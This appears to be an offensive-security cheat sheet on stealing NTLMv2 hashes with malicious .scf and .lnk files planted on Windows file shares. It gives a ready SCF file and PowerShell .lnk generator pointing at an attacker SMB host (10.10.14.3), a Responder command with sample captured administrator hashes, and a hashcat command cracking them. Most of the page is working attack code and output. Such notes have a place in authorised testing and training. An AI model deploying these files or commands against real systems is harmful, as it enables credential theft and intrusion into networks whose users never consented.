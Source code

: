 # Malicious SCF and .LNK File Attacks

Windows Explorer can be abused to leak NTLMv2 hashes via malicious `.scf` or `.lnk` files placed in file shares. These techniques are especially useful in internal engagements or post-exploitation stages when access to shared folders is available.
## 1. SCF on a File Share

An SCF (Shell Command File) is used by Windows to perform file explorer actions such as showing the desktop or navigating directories. It can be weaponized to initiate SMB authentication attempts to attacker-controlled shares.

When a user browses a directory containing a malicious `.scf`, Windows automatically initiates an SMB connection to the `IconFile` path — leaking the user's NTLMv2 hash.

### Malicious SCF File Example

Create a file like `@Inventory.scf` (starts with `@` so it's sorted at the top):

```ini
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico

[Taskbar]
Command=ToggleDesktop
```
## 2. Start Responder to Capture Hashes

Start Responder on your attack box to capture NTLMv2 hashes from any user who browses the share:

```bash
sudo responder -wrf -v -I tun0
```

Expected output:

```
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c...<SNIP>...
```

Let the share idle until a victim browses the folder — NTLMv2 hashes will be captured passively.
## 3. Crack the Hash with Hashcat

Once hashes are captured, crack them offline with Hashcat:

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

Example output:

```
Recovered........: 1/1 (100.00%) Digests
Hash.Name........: NetNTLMv2
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Hash.Target......: Administrator::WINLPE-SRV01:...
Password.........: Welcome1
```

## 4. Capturing Hashes Using a Malicious .LNK File

Starting from Server 2019, `.scf`-based techniques are no longer effective, but malicious `.lnk` files can still trigger outbound SMB auth when loaded in a folder view.
## 5. Generate Malicious .LNK File with PowerShell

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\10.10.14.3\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

Drop this `.lnk` file into a shared folder or user Desktop to trigger hash leak when browsed.
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Malicious_SCF_lnk_Files